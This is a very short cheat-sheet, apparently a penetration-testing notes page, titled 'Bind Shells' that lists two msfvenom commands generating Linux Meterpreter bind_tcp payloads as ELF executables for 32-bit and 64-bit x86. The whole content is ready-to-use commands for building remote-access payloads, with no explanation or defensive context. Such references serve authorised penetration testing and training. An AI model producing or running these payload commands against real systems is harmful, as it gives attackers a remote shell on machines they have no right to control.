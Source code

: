 # Bind Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p linux/x86/meterpreter/bind_tcp lport=<PORT> -f elf -o met-x86`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p linux/x64/meterpreter/bind_tcp lport=<PORT> -f elf -o met-x64`